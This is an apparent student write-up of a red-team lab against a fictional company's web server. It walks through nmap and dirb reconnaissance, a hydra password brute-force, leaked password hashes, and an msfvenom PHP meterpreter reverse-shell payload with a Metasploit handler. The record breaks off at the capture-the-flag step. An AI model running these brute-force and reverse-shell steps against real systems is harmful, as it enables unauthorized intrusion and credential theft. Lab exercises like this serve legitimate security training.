

# Day 1 Activity: Red Team

## Discover the IP address of the Linux web server
```
root@Kali:~# netdiscover -r 192.168.0.0/16

 Currently scanning: Finished!   |   Screen View: Unique Hosts

 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 126
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     00:15:5d:00:04:0d      1      42  Microsoft Corporation
 192.168.1.100   4c:eb:42:d2:d5:d7      1      42  Intel Corporate
 192.168.1.105   00:15:5d:00:04:0f      1      42  Microsoft Corporation

```

Online devices
- 192.168.1.1
- 192.168.1.100
- 192.168.1.105


### nmap to determine Web Server
<details>
    <summmary>Ran nmap scan to detemine IP address with web server</summary>

    ```
    root@Kali:~# nmap -sS -A 192.168.1.1/24
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-15 03:44 PDT
    Nmap scan report for 192.168.1.1
    Host is up (0.00053s latency).
    Not shown: 995 filtered ports
    PORT     STATE SERVICE       VERSION
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    2179/tcp open  vmrdp?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | rdp-ntlm-info:
    |   Target_Name: ML-RefVm-684427
    |   NetBIOS_Domain_Name: ML-RefVm-684427
    |   NetBIOS_Computer_Name: ML-RefVm-684427
    |   DNS_Domain_Name: ML-RefVm-684427
    |   DNS_Computer_Name: ML-RefVm-684427
    |   Product_Version: 10.0.18362
    |_  System_Time: 2021-10-15T10:45:04+00:00
    | ssl-cert: Subject: commonName=ML-RefVm-684427
    | Not valid before: 2021-09-25T04:58:57
    |_Not valid after:  2022-03-27T04:58:57
    |_ssl-date: 2021-10-15T10:45:43+00:00; 0s from scanner time.
    MAC Address: 00:15:5D:00:04:0D (Microsoft)
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running (JUST GUESSING): Microsoft Windows XP|7|2008 (87%)
    OS CPE: cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2
    Aggressive OS guesses: Microsoft Windows XP SP2 (87%), Microsoft Windows 7 (85%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 1 hop
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_nbstat: NetBIOS name: ML-REFVM-684427, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:00:04:0d (Microsoft)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-10-15T10:45:04
    |_  start_date: N/A

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.54 ms 192.168.1.1

    Nmap scan report for 192.168.1.100
    Host is up (0.00051s latency).
    Not shown: 998 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 35:d1:24:a2:77:4d:63:45:d8:89:07:ea:da:cf:18:25 (RSA)
    |   256 06:29:ac:c7:20:4c:88:49:55:21:a7:00:cc:fb:fd:75 (ECDSA)
    |_  256 e4:37:af:aa:ec:04:03:bb:78:34:e1:e5:9a:18:e5:66 (ED25519)
    9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
    | http-methods: 
    |_  Potentially risky methods: DELETE
    |_http-title: Site doesn't have a title (application/json; charset=UTF-8).
    MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.80%E=4%D=10/15%OT=22%CT=1%CU=41132%PV=Y%DS=1%DC=D%G=Y%M=4CEB42%
    OS:TM=61695BD7%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10E%TI=Z%CI=Z%II=I
    OS:%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O
    OS:5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6
    OS:=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O
    OS:%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=
    OS:0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%
    OS:S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
    OS:R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
    OS:N%T=40%CD=S)

    Network Distance: 1 hop
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.51 ms 192.168.1.100

    Nmap scan report for 192.168.1.105
    Host is up (0.00048s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 73:42:b5:8b:1e:80:1f:15:64:b9:a2:ef:d9:22:1a:b3 (RSA)
    |   256 c9:13:0c:50:f8:36:62:43:e8:44:09:9b:39:42:12:80 (ECDSA)
    |_  256 b3:76:42:f5:21:42:ac:4d:16:50:e6:ac:70:e6:d2:10 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29
    | http-ls: Volume /
    |   maxfiles limit reached (10)
    | SIZE  TIME              FILENAME
    | -     2019-05-07 18:23  company_blog/
    | 422   2019-05-07 18:23  company_blog/blog.txt
    | -     2019-05-07 18:27  company_folders/
    | -     2019-05-07 18:25  company_folders/company_culture/
    | -     2019-05-07 18:26  company_folders/customer_info/
    | -     2019-05-07 18:27  company_folders/sales_docs/
    | -     2019-05-07 18:22  company_share/
    | -     2019-05-07 18:34  meet_our_team/
    | 329   2019-05-07 18:31  meet_our_team/ashton.txt
    | 404   2019-05-07 18:33  meet_our_team/hannah.txt
    |_
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Index of /
    MAC Address: 00:15:5D:00:04:0F (Microsoft)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.80%E=4%D=10/15%OT=22%CT=1%CU=34573%PV=Y%DS=1%DC=D%G=Y%M=00155D%
    OS:TM=61695BD7%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II=
    OS:I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%
    OS:O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W
    OS:6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=
    OS:O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD
    OS:=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0
    OS:%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
    OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
    OS:=N%T=40%CD=S)

    Network Distance: 1 hop
    Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.48 ms 192.168.1.105

    Nmap scan report for 192.168.1.90
    Host is up (0.000049s latency).
    Not shown: 998 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.1p1 Debian 5 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 f9:78:2d:d0:0c:8c:29:05:3e:02:0f:8c:a0:27:96:7e (RSA)
    |   256 02:89:af:87:70:f4:7c:f3:95:3d:7a:6c:1b:8e:5a:45 (ECDSA)
    |_  256 24:cd:96:57:28:e2:4b:3e:c9:b1:4e:f2:e7:62:35:f7 (ED25519)
    8000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.17)
    |_http-title: Directory listing for /
    Device type: general purpose
    Running: Linux 2.6.X
    OS CPE: cpe:/o:linux:linux_kernel:2.6.32
    OS details: Linux 2.6.32
    Network Distance: 0 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 256 IP addresses (4 hosts up) scanned in 90.31 seconds
    ```
</details>

- Found:

    ```
    Nmap scan report for 192.168.1.105
    80/tcp open  http    Apache httpd 2.4.29
    ```


### Files from Server
- `http://192.168.1.105/company_blog/blog.txt`

    With over a combined 10 hours of experience, Summit Card Union has your one stop credit card needs. Looking to finance something as low as 34 percent? Need that personal touch of someone chatting with you through the computer? Shoot us an email!

    we are happy to invite our new three employees

    Ryan M. C.E.O
    Hannah A. V.P of I.T
    ahston Manager of direct communication, sales, customer privacy, and ex coffee delivery box

- `http://192.168.1.105/company_folders/company_culture/file1.txt`

    ERROR: FILE MISSING


    Please refer to company_folders/secret_folder/ for more information


    ERROR: company_folders/secret_folder is no longer accessible to the public
- `http://192.168.1.105/company_folders/company_culture/file2.txt`

    ERROR: FILE MISSING


    Please refer to company_folders/secret_folder/ for more information


    ERROR: company_folders/secret_folder is no longer accessible to the public
- `http://192.168.1.105/company_folders/company_culture/file3.txt`

    ERROR: FILE MISSING


    Please refer to company_folders/secret_folder/ for more information


    ERROR: company_folders/secret_folder is no longer accessible to the public

- `http://192.168.1.105/company_folders/customer_info/customers.txt`

    Nothing yet! But i'm sure customers will be lining up to hear about our 45 percent APR


    ERROR: FILE MISSING


    Please refer to company_folders/secret_folder/ for more information


    ERROR: company_folders/secret_folder is no longer accessible to the public

- `http://192.168.1.105/meet_our_team/ashton.txt`

    Ashton is 22 years young, with a masters degreee in aquatic jousting. "Moving over to managing everyone's credit card and security information has been terrifying. I can't believe that they have me managing the company_folders/secret_folder! I really shouldn't be here" We look forward to working more with Ashton in the future!
- `http://192.168.1.105/meet_our_team/hannah.txt`

    Hannah has been our VP of IT for nearly an hour! When it comes to training, Hannah slams her head against the desk when she hears of another employee falling for a phishing email. "The people here are as ssweet as sugar and just as dumb" she writes "I am constantly having to teach Ahston how to access the secret_folder." Haha Hannah, well done! We look forward to all of you meeting her in the future!
- `http://192.168.1.105/meet_our_team/ryan.txt`

    Ryan has been our CEO for over 26 hours! New to the business, Ryan believes in proper education and training. What is Ryan's business philosophy you ask? "Stick to the three main food groups, Candy cane, Candy corn and sugar".


## **Locate the hidden directory on the web server**
- from .txt files
    - first hidden directory `http://192.168.1.105/company_folders/secret_folder/`

- searching for more hidden directory

    ```
    root@Kali:~# dirb http://192.168.1.105/

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Thu Oct 14 21:02:04 2021
    URL_BASE: http://192.168.1.105/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612

    ---- Scanning URL: http://192.168.1.105/ ----
    + http://192.168.1.105/server-status (CODE:403|SIZE:278)
    + http://192.168.1.105/webdav (CODE:401|SIZE:460)

    -----------------
    END_TIME: Thu Oct 14 21:02:09 2021
    DOWNLOADED: 4612 - FOUND: 2
    ```

http://192.168.1.105/server-status
- Forbidden `403`

http://192.168.1.105/webdav
- Unauthorized `401`


## **Brute force the password for the hidden directory using the hydra command**
Obtaining wordlist
```
root@Kali:~# cp /usr/share/wordlists/rockyou.txt.gz .
root@Kali:~# gunzip rockyou.txt.gz
```

Running Hydra with rockyou list
```
root@Kali:~# hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder/

[80][http-get] host: 192.168.1.105   login: ashton   password: leopoldo
[STATUS] attack finished for 192.168.1.105 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-14 21:50:01

```

Username and password: `ashton:leopoldo`


### File Located in `/secret_folder/`
- `http://192.168.1.105/company_folders/secret_folder/connect_to_corp_server`

    Personal Note

    In order to connect to our companies webdav server I need to use ryan's account (Hash:d7dad0a5cd7c8376eeb50d69b3ccd352)

    1. I need to open the folder on the left hand bar
    2. I need to click "Other Locations"
    3. I need to type "dav://172.16.84.205/webdav/"
    4. I will be prompted for my user (but i'll use ryans account) and password
    5. I can click and drag files into the share and reload my browser


## **Break the hashed password with the Crack Station website**


### logged in with credentials on browser `/webdav/`


- file present `http://192.168.1.105/webdav/passwd.dav`
```
ryan:$apr1$fsU/VibG$HznoQs6XTF7VauEHtktNt.
```


## **Created MSFVenom PHP reverse shell payload**
```
root@Kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 -f raw -o rvb.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1113 bytes
Saved as: rvb.php
```

### Transferred php payload


## Start msfconsole
```
root@Kali:~# msfconsole
[-] ***rting the Metasploit Framework console...\
[-] * WARNING: No database support: No database YAML file
[-] ***
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v5.0.76-dev                          ]
+ -- --=[ 1971 exploits - 1088 auxiliary - 339 post       ]
+ -- --=[ 558 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.1.105
LHOST => 192.168.1.105
msf5 exploit(multi/handler) > exploit

[-] Handler failed to bind to 192.168.1.105:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 

```

## Execute payload that you uploaded to the site to open up a meterpreter session


- via browser


## Capture the flag

